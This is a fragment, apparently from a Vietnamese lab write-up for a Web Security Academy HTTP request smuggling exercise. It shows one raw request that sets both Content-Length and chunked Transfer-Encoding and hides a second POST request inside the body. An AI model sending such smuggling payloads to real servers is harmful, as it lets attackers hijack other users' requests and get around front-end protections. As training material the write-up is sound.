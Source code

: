 ![alt text](image-18.png)

Với request:\
```http
POST / HTTP/1.1
Host: 0a8f009f032190be84e33c0600fe00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
